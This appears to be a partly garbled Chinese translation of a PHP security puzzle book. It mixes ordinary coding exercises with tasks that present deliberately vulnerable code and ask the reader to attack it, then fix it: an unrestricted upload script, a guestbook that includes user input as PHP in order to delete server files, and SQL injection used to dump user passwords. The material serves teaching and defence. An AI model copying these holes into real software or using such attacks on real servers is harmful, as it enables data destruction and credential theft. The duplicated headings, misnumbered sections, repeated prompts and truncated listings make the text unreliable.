# PHP 安全与破解谜题


书籍编辑：Julie Liang

- I.2.8. 验证数字输入 15
- I.6.7. 伪造 User Agent 55

## 第 1.7 章：授权与身份验证 56

- I.7.8. 保护用户名 64
- I.14.1. 监控远程页面上的链接 91
- II.1.5. 在页面间传递数组 106
- II.2.9. 转换大小写 130
- II.3.22. 确定图片创建日期 183
- II.5.8. 盗取 Cookie ________________________________________________ 248
- II.6.7. 伪造用户代理 ______________________________________________ 258
- II.7.7. 基于 Cookie 的授权 __________________ 279

## II.9章：文件传输协议（FTP） ____________________________________ 312

- II.9.3. 上传与下载文件 ________________________________ 317
- II.10.2. 从服务器获取 HTTP 头部 ____________________ 325

## II.11章：电子邮件 __________________________________ 331

- II.11.1. 从网站发送邮件 ______________________________________ 331
- II.11.5. 使用 SMTP 中继发送邮件 ______________________ 340
- II.11.6. 确定邮件中继服务器的地址 ________________ 342

## II.12章：Whois 服务 343

- II.12.4. 根据域名确定 IP 地址 349
- II.12.5. 根据 IP 地址确定域名 350
- II.12.6. 域名是否被占用？ 350
- II.14.4. 监控大文件 376

索引 386

## I.1.1. 在目录列列文件

编写一个脚本来统计目录中的文件数量并确定它们的名称。该脚本不能使用目录函数。PHP 使用了几种类型的引号，每种引号都有其特定的属性。在开发脚本时请使用它们。

## I.1.2. 右对齐

假设你有一个存储在数组中的文件列表，如列表 I.1.1 所示。文件名长度不等，有必要如图 I.1.1 所示将它们沿右边界对齐。在不使用 `align` 属性或级联样式表（CSS）的情况下解决此问题。仅允许使用 `<pre>` 和 `</pre>` 标签。



列表 I.1.1。包含不同长度文件名的 `$filename` 数组

```php
<?php
$filename = array("all.php", "auth.php",
"auth.txt", "base.txt",
```

## 第 I.1.1 节：字符串

```php
"chat.html", "config.php",
"count.txt", "count_new.txt",
"counter.dat", "counter.php",
"create.php", "dat.db";
```

包含文件名数组的 `1.php` 文件可以在随附光盘-ROM 的 `/scripts/1/1.2` 目录下找到。

## I.1.3. 按左边界和右边界对齐

将 `$filename` 数组（见列表 I.1.1）分为两部分，并如图 I.1.2 所示以两列输出。在不使用 `align` 属性或 CSS 的情况下解决此问题。仅允许使用 `<pre>` 和 `</pre>` 标签。



图 I.1.2。按左边界和右边界对齐文件名

## I.1.4. 输出三列数据

Web 程序员经常需要输出多列表格。以两种方式输出 `$filename` 数组（见列表 I.1.1）中的文件名，如图 I.1.3 和 I.1.4 所示。解决此问题需要你动态构建一个超文本标记语言（HTML）表格。



**图 I.1.1.3.** 在三列表格中输出数组的第一种方法



**图 I.1.1.4.** 在三列表格中输出数组的第二种方法

## I.1.5. 从页面传递数组

假设列表1.1 所示的 `$filename` 数组定义在 `first.php` 页面上。使用 `include` 指令在 `second.php` 页面上显示它。

## I.1.6. 使用 GET 方法传递数组

假设列表1.1 所示的 `$filename` 数组定义在 `first.php` 页面上。使用 `GET` 方法在 `second.php` 页面上显示它。

## I.1.7. 使用 POST 方法传递数组

假设列表1.1 所示的 `$filename` 数组定义在 `first.php` 页面上。使用 `POST` 方法在 `second.php` 页面上显示它。

## I.1.8. 使用 Sessions 传递数组

假设列表1.1 所示的 `$filename` 数组定义在 `first.php` 页面上。使用 `sessions` 在 `second.php` 页面上显示它。

## I.1.9. 使用 Cookies 传递数组

假设列表1.1 所示的 `$filename` 数组定义在 `first.php` 页面上。使用 `cookies` 在 `second.php` 页面上显示它。

## I.1.10. 日历

为当前月份创建两种格式的日历：美式（图 I.1.5）和俄式（图 I.1.6）。周六和周日必须用红色突出。



图 I.1.5。美式格式的当前月日历

## 第一部分：谜题



图 I.1.6.俄式格式的当前月日历

## I.1.11. 垂直输出字符串

垂直输出 `Hello world!` 字符串，如图 I.1.7 所示。



图 I.1.7。垂直字符串输出

## I.1.12. 以货币格式显示数字

假设你有以下数字：18439529234.5678。以货币格式输出此数字。

## I.1.13. 替换 bbCode

假设你有以下文本：18439529234.5678。替换其 bbCode。

## 第 I.2 节：正则表达式


正则表达式是强大的工具。

## I.2.12. 统计单词

随附的 CD-ROM 包含 `scripts/2/index.htm`。读取页面内容并统计由一到十个字母组成的单词。

## I.2.13. 解析 bbCode 标签

方括号括的标签（也称为 phpBB 风格标签，phpBB 是一个流行的论坛）在互联网上广泛广泛。使用此类标签的便利之处在于，可以通过 `htmlspecialchars()` 函数将所有 HTML 标签转换为安全形式，从而禁止它们的使用，让访问者使用等效标签。例如，可以使用 `[i]` 替换 `<i>`，使用 `[code]` 替换 `<code>`。只有在使用 `htmlspecialchars()` 函数对文本进行转换后，用方括号括的标签才能替换为尖括号括的 `<a>` 标签。这种转换通常适用于具有以下语法的 `[url]` 标签：

```
[url=link]name[/url]
```

在输出过程中，此模板必须转换为以下格式：

`<a href="link">link name</a>`

另一个例子，假设使用了以下形式的标签：

`[url]link[/url]`

页面将输出以下超链接：

`<a href="link">link</a>`

随附的 CD-ROM 包含 `scripts/2/bb.txt` 文件。其内容如图 I.2.3 所示。



图 I.2.3. bb.txt 文件的内容

## 第 1.2 章：正则表达式

将此页面上的所有标签转换为相应的 HTML 等效标签（图 I.2.4）。



图 I.2.4. bb.txt 文件的转换后内容

## I.2.14. PHP 代码高亮

PHP 提供了两个用于高亮代码的标准函数：`highlight_string()` 和 `highlightfile()`。这两个函数有两个严重的缺点：它们仅支持 PHP 代码，且代码必须包含在 `<?php ... ?>` 或 `(<?< ... ?>)` 中。开发一个没有这些缺点的自定义语法高亮函数。

## 第 I.3 章：文件操作


文件操作是 Web 应用不可或缺的一部分，因为 Web 应用的代码和使用的数据存储在文件中。因此，Web 应用的性能和安全性取决于对文件的有效利用。

> 注意
> 本章的所有示例都可以在随附 CD-ROM 的 `/scripts/3` 目录中找到。

### I.3.1. 上传文件

开发一个 Web ，向服务器上传任意数量的文件（图 I.3.1）。

## 第 1.3 章：文件操作



图 1.3.1. 向服务器上传任意数量文件的 HTML 表单

## I.3.2. 编辑远程文件

开发一个 Web 应用，在远程服务器上打开指定的文件。文件内容必须传递到文本区域。该应用必须提供编辑后保存更改的手段（图 1.3.2）。



图 1.3.2. 在远程服务器上编辑文件

## I.3.3. 上传脚本中的漏洞

列表 I.3.1 显示了用于上传文件的 `upload.php` 脚本。该脚本包含一个漏洞。找到该漏洞并破坏 `upload.php` 文件。开发一个免受此漏洞攻击的上传脚本。

> 列表 I.3.1 所示脚本可以在随附 CD-ROM 的 `/scripts/3/upload.php` 文件中找到。

## 列表 I.3.1. 上传到远程文件的漏洞脚本

```
<form enctype='multipart/form-data' method=post>
<input type="file" size="32" name="filename"><br>
<input class="button" type="submit" value='Upload'>
</form>
<?php
// 表单处理器
if(!empty($_FILES['filename']['tmp_name']))
{
    // 在当前目录保存文件
    if(copy($_FILES['filename']['tmp_name'],
        $_FILES['filename']['name']))
    {
        echo "The file has been uploaded successfully - <a href="" .
            $_FILES['filename']['name'] . "\">" .
            $_FILES['filename']['name']."</a>";
    }
}
?>
```

## I.3.4. 下载计数器

假设你的服务器上有三个文件可以免费下载：`archive1.zip`、`archive2.zip` 和 `archive3.zip`。创建一个脚本，统计每个文件从服务器下载的次数（图 I.3.3）。

## 第 1.3 章：文件操作



注意 `archive1.zip`、`archive2.zip`、`archive3.zip` 文件可以在 CD-ROM 的 `/scripts/3` 目录中找到。

## I.3.5. 保存文本和图形文件

下载计数器脚本解决了另一个与系统安全相关的问题：即它向用户隐藏了文件的真实路径。你可以将它们深嵌套在系统的某处；访问者只会看到下载页面地址。

尽管如此，如果下载的是文本文件，浏览器将不会显示下载窗口。相反，浏览器将加载文件，不仅暴露了文件路径，还强制用户使用“另存为...”菜单将文件保存到自己的本地。图形文件以及所有浏览器可以打开并显示的文件也是如此。开发一个用于存储文本和图形文件的脚本，为下载文件提供一个适当的窗口（图 I.3.4）。

## 第 I.2 部分：谜题



图 I.3.4. 下载对话框

### I.3.6. 确定文件大小

开发一个函数，接受文件名作为参数并返回字节、千字节或兆字节的文件大小，取决于其大小。如果文件小于 1024 字节，则必须以千字节为单位评估大小。如果超过 1024-KB 阈值，则必须以兆字节为单位评估大小。

### I.3.7. 确定文件的行数

开发一个函数，接受文件作为参数并返回文件中的行数。

### I.3.8. 反转文件的行顺序

找到随附 CD-ROM 提供的 `text.txt` 文件 (`/scripts/3/text.txt`)。开发一个脚本更改该文件中行的顺序，使得第一行变成最后一行，第二行变成倒数第二，以此此类推，文件的最后一行变成第一行。

### I.3.9. 列出文件和子目录

开发一个脚本输出文件和子目录列表。脚本必须输出每个子目录的子目录列表。

## 第 1.3 章：文件操作



## I.3.10. 统计目录中的文件数

开发一个脚本输出当前目录下的子目录列表以及每个目录的文件数。对于每个子目录，脚本还必须输出子目录列表（图 I.3.6）。



## I.3.11. 统计项目文件的行数

创建一个脚本统计项目文件的行数。脚本必须遍历项目的所有嵌套目录，并统计具有指定文件扩展（例如 `.php` 或 `.h` 和 `.cpp`）的文件行数。

## I.3.12. 替换子目录所有文件中的字符串

开发一个脚本，遍历当前目录的所有嵌套子目录，并将所有文件中遇到的指定字符串替换另一个字符串。

## I.3.13. 分段上传文件

创建一个脚本将大文件拆分为碎片，然后在上传到服务器后重新组装。如果远程服务器对上传文件的大小设置了过于严格的限制，此脚本将允许你使用第二节开发的脚本上传大文件。

## I.3.14. 删除目录

使用 `rmdir()` 函数删除目录。然而，该函数功能有限。它只能删除空目录。因此，如果要删除的目录包含至少一个文件，删除操作将失败。开发一个自定义函数来绕过此限制。

## I.3.15. 从文件中随机输出

随附的 CD-ROM 包含 `text.txt` 文件 (`/scripts/3/text.txt`)。该文件的内容列表 I.3.2 所示。

> 列表 I.3.2. text.txt 文件的内容

+ 1 Programming
2 PHP programming
3 JavaScript programming

## 第 I.3 章：文件操作

- 4 ASP.NET 编程
- 5 Java 编程
- 6 Perl 编程
- 7 C++ 编程
- 8 Pascal 编程
- 9 Fortran 编程
- 10 汇编编程

编写一个脚本从该文件中输出随机一行。

### I.3.16. 编辑文件

编写一个脚本，将 `text.txt` 文件（见列表 I.3.2）中索引为 7 的行替换为 C/C++ 编程。

### I.3.17. 打乱文本文件行

编写一个脚本，随机更改 `text.txt` 文件（见列表 I.3.2）中行的顺序。此外，创建一个脚本按索引值对文件内容进行排序，另一个脚本按字母顺序对记录进行排序。

### I.3.18. 向文件中添加记录

编写一个脚本计算 `text.txt` 文件（见列表 I.3.2）中的最大索引值，并向其添加新行（例如 Visual Basic 编程），为其分配一个等于当前索引加一的索引值。

### I.3.19. 输出页面

编写一个脚本，每页三行输出 `text.txt` 文件（见列表 I.3.2）中的行，并提供页面导航功能（图 I.3.7）。



图 I.3.7. 页面导航

### I.3.20. 基于文件的注册系统

开发一个在文件中存储注册用户信息的系统。该数据文件的每行都必须对应一个单独的用户，并采用以下格式：

用户名::密码::邮箱::网址

用户名、密码、邮箱地址和主页必须用两个冒号（::）分隔。系统不允许注册已存在相同用户名的用户。此外，开发一个用于查看注册用户信息的脚本。

### I.3.21. 输出随机文件

假设你有一个包含图像文件的目录。编写一个脚本，在加载页面时显示随机的图像。

### I.3.22. 确定图像创建日期


无论 JPEG 图像是如何创建的，它必须包含图像创建日期。编写一个脚本从 JPEG 文件中自动提取此日期。

### I.3.23. 将内容从一个目录复制到另一个目录

编写一个脚本，将目录及其所有嵌套目录的内容复制到另一个目录。

### I.3.24. 破解留言板

列表 I.3.3 包含了向留言板添加新消息的脚本。利用此代码包含的漏洞删除该脚本所在目录中的所有文件。然后修正代码以消除允许入侵者在服务器上执行第三方代码的漏洞。

> 列表 I.3.3 显示的脚本可以在附带光盘的 `/scripts/3/3.24/1.php` 文件中找到。

#### 列表 I.3.3. 可破解留言板的漏洞代码

```php
<?php
// 表单处理器
if(!empty($_POST['name']) && !empty($_POST['msg'])) {
    $msg = "<tr><td>".\$_POST['name']."</td></tr>";
    $msg = "<tr><td>".\$_POST['msg']."</td></tr>";
    // 打开文件并向其添加新记录。
    $fd = fopen("msg.txt", "a");
    if($fd) {
        fwrite($fd, $msg);
        fclose($fd);
    }
    // 输出已添加到文本文件的消息
    echo "<table>";
if(file_exists("msg.txt")) include "msg.txt";
```

```php
echo "</table>";
?>
<form method="post">
<table align="center">
<tr>
<td>Name</td>
<td><input type="text" name="name"></td>
</tr>
<tr>
<td colspan="2">Message<br>
<textarea cols="42" rows="5" name="msq"></textarea></td>
</tr>
<tr>
<td><input type="submit" value="Add"></td>
</tr>
</table>
</form>
```


MySQL 数据库管理系统因其高性能、通过开源许可分发以及在主机提供商中的普及而成为事实上的标准。在开发 Web 应用时使用数据库可以显著提高性能。然而，粗率使用 MySQL 会引入严重的漏洞。这些漏洞被称为 SQL 注入。

### I.4.1. 用户注册系统

创建一个存储注册用户信息的系统（图 I.4.1）。用户列表表可以在 `/scripts/4` 目录下找到。



图 I.4.1. 用户注册

#### 列表 I.4.1. 用户列表表

```sql
CREATE TABLE userslist (
id int(11) NOT NULL AUTO_INCREMENT,
name varchar(255) NOT NULL,
pass varchar(255) NOT NULL,
email varchar(255) NOT NULL,
url varchar(255) NOT NULL,
    PRIMARY KEY (id)
) ENGINE=MyISAM;
```

- `id`
- `name`
- `pass`
- `email`
- `url`

### I.4.2. 输出随机文件

列表 I.4.2 显示的脚本提供了用户信息。代码可以在 `/scripts/4` 目录下找到。

#### 列表 I.4.2. 用户列表表

```php
<?php
// 建立数据库连接
require_once("config.php");
// 请求用户列表
```

# 34 第一部分：谜题

```php
if (!$user) exit("Error - " . mysql_error());
while($user = mysql_fetch_array($usr))
{
    echo "User name - " . $user['name'] . "<br>";
}
?>
```

要显示所有相似名称的列表，在 HTML 表单的文本区域中提供用户名的一部分。列表 I.4.4 中搜索系统的操作结果如图 I.4.3 所示。



图 I.4.3. 通过名称搜索用户

如果提供的用户名是空字符串，则将显示所有注册用户（图 I.4.4）。

使用列表 I.4.4 中的脚本，显示所有用户的名称和密码。报告字符串的格式必须如下：

`User name - name | Password - pass`

这里，`name` 是用户名，`pass` 是用户的密码。在显示名称和密码后，修正列表 I.4.4 中的代码以防止 SQL 注入。



# I.4.5. 用户删除与 SQL 注入

假设为第 I.4.1 节描述的用户注册系统实现了一个自动删除用户注册信息的服务。注册用户可以在表单中输入其名称和密码，之后该用户的信息将自动从系统中删除（列表 I.4.5）。

> 注意
>
> 列表 I.4.5 所示的脚本可以在附带光盘的 `/scripts/4/4.5/1.php` 文件中找到。

# 列表 I.4.5. 用户删除系统

```html
<table>
<form method="post">
<tr>
<td>Name:</</td>
<td><input type="text" name="name" value="<?= echo $_POST['name']; ?>"></td>
</tr>
<tr>
<td>Password:</</td>
